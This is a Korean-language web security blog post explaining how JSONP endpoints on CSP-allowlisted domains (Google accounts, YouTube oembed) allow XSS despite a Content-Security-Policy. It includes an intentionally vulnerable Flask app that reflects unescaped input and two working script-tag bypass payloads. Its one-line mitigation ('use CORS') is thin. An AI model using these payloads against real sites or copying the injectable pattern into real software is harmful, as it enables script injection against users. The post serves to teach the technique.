 ```yaml
---
title: CSP Bypass with JSONP
date: 2023-12-07
author: glasses96
categories: [WEB]
tags: [CSP Bypass, JSONP]
pin: true
math: true
mermaid: true
---
```


> **CSP에 script-src에 JSONP API를 지원하는 서버가 있을 경우 이를 이용하여 XSS를 하는 방법을 알아봅시다.**  
{: .prompt-info }

## What is JSONP
JSONP는 SOP(Same Origin Policy)정책을 우회하기 위해 사용하는 방법입니다.  
`JSONP는 HTML 문서의 script 태그로 다른 도메인을 요청 할 시 SOP 정책이 적용되지 않는 방식`을 이용하여 동작합니다.  
script 태그는 src 속성 값을 호출한 결과를 javascript로 불러와서 즉시 실행시키는 기능입니다.

### Attack Point

만약 CSP에서 허용한 출처가 JSONP API를 지원한다면, `callback 파라미터에 원하는 스크립트`를 삽입하여 공격이 가능합니다.  
예를 들어 웹 페이지에서 *.google.com에서 온 출처만 허용한다고 가정해봅시다. 이 경우, 구글에서 JSONP API를 지원하는 서버를 찾아 callback에 원하는 스크립트를 삽입할 수 있습니다.  

예시 코드를 보면 CSP 적용되어 있어 text 변수에 스크립트 구문을 넣어도 CSP 떄문에 스크립트를 실행할 수 없습니다.
```py
#!/usr/bin/env python3
from flask import Flask, request

app = Flask(__name__)

@app.after_request
def add_header(response):
    global nonce

    csp = (
        "default-src 'self'; "
        "script-src 'self' *.google.com *.youtube.com; "
        "img-src 'self'; "
        "style-src 'self'; "
        "object-src 'none'; "
        "base-uri 'none';"
    )
    response.headers['Content-Security-Policy'] = csp
    return response


@app.route('/', methods=['GET'])
def index():
    text = request.args.get("text", "test")
    return f"<html><body>text : {text}</body></html>"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5555)

```

![스크립트 삽입 에러](/assets/post/51/1.png))

### Google Accounts
JSONP API를 지원하는 callback에 원하는 페이로드를 넣어서 XSS 동작이 가능합니다.
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(`glasses96`);"></script>
```
![XSS_Google](/assets/post/51/2.png)

### youtube

```
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE%26format=json%26callback=alert(`glasses96`)";></script>
```
![XSS_Youtube](/assets/post/51/3.png)

## 대응방안
CORS 사용

## Next?
다음은 service worker를 이용하여 XSS를 동작시키는 방법에 대해서 알아보겠습니다.

## Reference
- https://learn.dreamhack.io/322
- https://lactea.kr/entry/ctf-%EB%AC%B8%EC%A0%9C%EB%A5%BC-%ED%86%B5%ED%95%B4-CSP-bypass-%EC%A0%95%EB%A6%AC%ED%95%98%EA%B8%B0